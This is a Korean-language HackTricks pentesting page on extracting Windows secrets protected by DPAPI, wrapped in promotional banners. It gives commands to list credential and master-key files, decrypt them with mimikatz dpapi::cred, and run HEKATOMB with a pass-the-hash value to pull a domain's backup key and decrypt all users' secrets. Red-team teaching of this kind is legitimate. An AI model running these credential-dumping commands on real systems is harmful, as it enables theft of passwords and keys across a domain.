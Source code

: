 # DPAPI - 비밀번호 추출

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

* **사이버 보안 회사**에서 일하시나요? **회사를 HackTricks에서 광고**하거나 **PEASS의 최신 버전에 액세스**하거나 HackTricks를 **PDF로 다운로드**하고 싶으신가요? [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인해보세요!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견해보세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter**에서 저를 **팔로우**하세요 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **해킹 트릭을 공유하려면 PR을** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **및** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **에 제출하세요.**

</details>

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/)은 **스페인**에서 가장 중요한 사이버 보안 행사 중 하나로 **기술 지식을 촉진**하기 위한 미션을 가지고 있으며, 모든 분야의 기술 및 사이버 보안 전문가들에게 뜨거운 만남의 장입니다.

{% embed url="https://www.rootedcon.com/" %}


## DPAPI란?

데이터 보호 API (DPAPI)는 주로 Windows 운영 체제에서 사용되며, 대칭 비대칭 개인 키의 **대칭 암호화**에 사용됩니다. 사용자 또는 시스템 비밀을 엔트로피의 중요한 원천으로 활용합니다. 이 접근 방식은 개발자가 사용자의 로그온 비밀 또는 시스템 암호화의 경우 시스템 도메인 인증 비밀을 사용하여 키를 유도하여 데이터를 암호화할 수 있도록 하여 개발자가 암호화 키의 보호를 직접 관리하지 않아도 되도록 합니다.

### DPAPI로 보호된 데이터

DPAPI로 보호되는 개인 데이터에는 다음이 포함됩니다:

- 인터넷 익스플로러 및 Google Chrome의 비밀번호 및 자동 완성 데이터
- Outlook 및 Windows Mail과 같은 애플리케이션의 이메일 및 내부 FTP 계정 비밀번호
- 공유 폴더, 리소스, 무선 네트워크 및 Windows Vault의 비밀번호, 암호화 키 포함
- 원격 데스크톱 연결, .NET Passport 및 다양한 암호화 및 인증 목적의 개인 키에 대한 비밀번호
- Credential Manager에서 관리하는 네트워크 비밀번호 및 Skype, MSN 메신저 등의 CryptProtectData를 사용하는 애플리케이션에서의 개인 데이터
```bash
# From cmd
vaultcmd /listcreds:"Windows Credentials" /all

# From mimikatz
mimikatz vault::list
```
## 자격 증명 파일

**보호된 자격 증명 파일**은 다음 위치에 있을 수 있습니다:
```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
mimikatz의 `dpapi::cred`를 사용하여 자격 증명 정보를 가져옵니다. 응답에서는 암호화된 데이터와 guidMasterKey와 같은 흥미로운 정보를 찾을 수 있습니다.
```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```
**mimikatz 모듈** `dpapi::cred`를 사용하여 적절한 `/masterkey`와 함께 복호화할 수 있습니다:
```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```
## 마스터 키

사용자의 RSA 키를 암호화하는 데 사용되는 DPAPI 키는 `%APPDATA%\Microsoft\Protect\{SID}` 디렉토리에 저장됩니다. 여기서 {SID}는 해당 사용자의 [보안 식별자](https://en.wikipedia.org/wiki/Security_Identifier)입니다. **DPAPI 키는 사용자의 개인 키를 보호하는 마스터 키와 동일한 파일에 저장됩니다**. 일반적으로 64바이트의 무작위 데이터입니다. (이 디렉토리는 보호되어 있으므로 cmd에서 `dir`을 사용하여 목록을 볼 수 없지만 PS에서는 볼 수 있습니다).
```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```
다음은 사용자의 일련의 마스터 키 예시입니다:

![](<../../.gitbook/assets/image (324).png>)

보통 **각 마스터 키는 다른 콘텐츠를 복호화할 수 있는 암호화된 대칭 키**입니다. 따라서 **암호화된 마스터 키를 추출**하여 이후에 **해당 키로 암호화된 다른 콘텐츠**를 복호화하는 것이 흥미로울 수 있습니다.

### 마스터 키 추출 및 복호화

마스터 키를 추출하고 복호화하는 방법에 대한 예시는 다음 포스트를 참조하세요: [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#extracting-dpapi-backup-keys-with-domain-admin).

## SharpDPAPI

[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI#sharpdpapi-1)는 [@gentilkiwi](https://twitter.com/gentilkiwi)의 [Mimikatz](https://github.com/gentilkiwi/mimikatz/) 프로젝트에서 일부 DPAPI 기능을 C#으로 이식한 것입니다.

## HEKATOMB

[**HEKATOMB**](https://github.com/Processus-Thief/HEKATOMB)은 LDAP 디렉터리에서 모든 사용자 및 컴퓨터를 추출하고 RPC를 통해 도메인 컨트롤러 백업 키를 추출하는 도구입니다. 스크립트는 모든 컴퓨터의 IP 주소를 확인하고 모든 사용자의 DPAPI 블롭을 검색하여 도메인 백업 키로 모든 것을 복호화합니다.

`python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp`

LDAP 컴퓨터 목록에서 추출한 후에는 알지 못했던 모든 하위 네트워크를 찾을 수 있습니다!

"도메인 관리자 권한만으로는 충분하지 않습니다. 모두 해킹하세요."

## DonPAPI

[**DonPAPI**](https://github.com/login-securite/DonPAPI)는 DPAPI로 보호된 비밀을 자동으로 덤프할 수 있는 도구입니다.

## 참고 자료

* [https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#using-dpapis-to-encrypt-decrypt-data-in-c)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/)은 **스페인**에서 가장 관련성 높은 사이버 보안 행사이며 **유럽**에서 가장 중요한 행사 중 하나입니다. 기술적인 지식을 촉진하는 것을 목표로 한 이 회의는 모든 분야의 기술 및 사이버 보안 전문가들에게 열정적인 만남의 장입니다.

{% embed url="https://www.rootedcon.com/" %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹 배우기<strong>!</strong></summary>

* **사이버 보안 회사에서 일하고 계신가요? HackTricks에서 귀사를 홍보하거나 PEASS의 최신 버전에 액세스하거나 HackTricks를 PDF로 다운로드하고 싶으신가요?** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter**에서 **저를 팔로우**하세요. 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **자신의 해킹 기법을 공유하려면** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **및** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **에 PR을 제출하세요.**

</details>
